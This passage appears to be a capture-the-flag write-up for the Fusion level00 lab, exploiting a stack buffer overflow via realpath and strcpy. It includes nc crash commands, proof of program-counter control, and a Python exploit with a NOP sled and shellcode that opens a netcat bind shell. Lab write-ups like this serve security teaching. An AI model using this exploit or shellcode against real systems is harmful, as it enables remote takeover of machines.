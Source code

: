Here's a path, oh it's longer than 128 bytes. **STRCPY NOOOOOO...**

![Crash]({{ site-url }}/assets/post_images/fusion_level00_Acrash.gif)

#### Crashing the process - realpath link-resolution

`realpath` will resolve links, `../../` paths and other miscellaneous ways
of referring to a path into a absolute path.

If we create a file with a very very long filename and create a link
to that file, realpath will resolve the link. The program will then
copy the path into `resolved`, and overflow it.

~~~
$ touch `python "print 'A'*192"`
$ ln -s AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ./l00l
$ python -c "print 'GET /home/fusion/l00l HTTP/1.1'" | nc 127.0.0.1 20000
~~~

#### Crashing the process - 'A'*137

Alternatively we can just send all the `A`s.

~~~
$ python -c "print 'GET ' + 'A'*137 + ' HTTP/1.1'" | nc 127.0.0.1 20000
[debug] buffer is at 0xbffff8f8 :-)
$ dmesg | tail -n 1
[12027.104103] level00[3176]: segfault at bf004135 ip 08049975 sp bffff8e0 error 4 in level00[8048000+3000]
~~~

### Control over program counter

~~~
$ python -c "print 'GET '+'A'*139+'\xef\xbe\xad\xde'+' HTTP/1.1'" | nc 127.0.0.1 20000
[debug] buffer is at 0xbffff8f8 :-)
$ dmesg | tail -n 1
[12416.936119] level00[3221]: segfault at deadbeef ip deadbeef sp bffff8e0 error 15
~~~

Let's whip up some python to get this show on the road.

We're gonna need some shellcode, I found the one I used below
[here](https://www.exploit-db.com/exploits/37359/).

{% highlight python %}
# File: fusion00_solution.py
from struct import pack

NOPSLED="\x90"*12
SHELLCODE="\x31\xc0\x50\x68\x6e\x2f\x6e\x63\x68\x2f\x2f\x62\x69\x89\xe3\x50\x68\x35\x35\x35"+\
    "\x35\x68\x2d\x6c\x74\x70\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68"+\
    "\x2d\x65\x2f\x2f\x89\xe2\x50\x52\x51\x53\x89\xe7\xb0\x0b\x89\xf9\x31\xd2\xcd\x80"
OVERFLOW="A"*139
ADDR=pack('L', 0xbffff8f8+len(OVERFLOW)+20)
PAYLOAD="GET "+OVERFLOW+ADDR+" HTTP/1.1" + NOPSLED+SHELLCODE

print PAYLOAD
{% endhighlight %}

